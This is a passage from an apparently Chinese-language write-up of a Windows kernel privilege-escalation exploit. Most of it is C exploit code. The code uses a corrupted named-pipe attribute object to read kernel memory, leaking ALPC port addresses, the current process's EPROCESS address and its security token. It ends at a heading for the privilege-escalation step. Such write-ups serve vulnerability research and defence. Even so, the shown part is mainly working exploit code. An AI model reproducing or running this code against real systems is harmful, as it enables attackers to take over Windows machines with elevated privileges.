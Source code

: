 执行泄露操作：  
```
    printf("[+] Arbitrary read from corrupted pipe_attribute object\n"); 
    int CorruptedPipeIdx = -1;
    for (int i = 0; i < NUM_PIPEATTR; i++) {
        memset(PipeData, 0x0, sizeof(PipeData)); 
        ret = NtFsControlFile(WritePipeArr[i], NULL, NULL, NULL, &status, 0x110038, FakePipeName, (strlen(FakePipeName)+1), PipeData, 0x1000);
        if (ret == 0) {
            printf("[+] Reached fake pipe_attribute in userland\n");
            ALPC_port_leak = *((unsigned long long *)(PipeData));
            ALPC_handle_table = ((unsigned long long *)(PipeData))[1];
            ALPC_message_leak = ((unsigned long long *)(PipeData))[3]; 
            CorruptedPipeIdx = i; 
            printf("[+] ALPC port leak: 0x%llx\n", ALPC_port_leak);
            printf("[+] ALPC handle table leak: 0x%llx\n", ALPC_handle_table); 
            printf("[+] ALPC message leak: 0x%llx\n", ALPC_message_leak);
            break;
        }
    }
```  
  
从 _ALPC_PORT  
 结构体中，我们可以获取到 EPROCESS  
 的地址。由于 ALPC 端口属于我们当前进程，这个 EPROCESS  
 就是我们当前进程的结构体。令牌指针位于 EPROCESS  
 偏移量 0x4b8 处，我们可以通过读取 EPROCESS  
 来获取它。  
  
执行这些泄露操作：  
```
    // Leak EPROCESS
    printf("[+] Leaking data in ALPC_port\n"); 
    memset(PipeData, 0x0, sizeof(PipeData)); 
    *(unsigned long long *)(FakePipe + 0x18) = 0x1d8; // Attribute value size -- LEAK SIZE
    *(unsigned long long *)(FakePipe + 0x20) = (unsigned long long)(ALPC_port_leak); // Attribute value -- LEAK POINTER
    ret = NtFsControlFile(WritePipeArr[CorruptedPipeIdx], NULL, NULL, NULL, &status, 0x110038, FakePipeName, (strlen(FakePipeName)+1), PipeData, 0x1000);
    EPROCESS_leak = ((unsigned long long *)(PipeData))[3];
    printf("[+] EPROCESS leak: 0x%llx\n", EPROCESS_leak); 

    // Leak token
    int pid = GetCurrentProcessId(); 
    printf("[+] Current PID: 0x%lx\n", pid); 
    memset(PipeData, 0x0, sizeof(PipeData)); 
    *(unsigned long long *)(FakePipe + 0x18) = 0xa40; // Attribute value size -- LEAK SIZE
    *(unsigned long long *)(FakePipe + 0x20) = (unsigned long long)(EPROCESS_leak); // Attribute value -- LEAK POINTER
    ret = NtFsControlFile(WritePipeArr[CorruptedPipeIdx], NULL, NULL, NULL, &status, 0x110038, FakePipeName, (strlen(FakePipeName)+1), PipeData, 0x1000);
    token_leak = ((unsigned long long *)(PipeData))[151] & 0xFFFFFFFFFFFFFFF0; 
    printf("[+] Leaked PID: 0x%lx\n", ((unsigned long long *)(PipeData))[136]); 
    printf("[+] Leaked token: 0x%llx\n", token_leak);
```  
### 权限提升  
  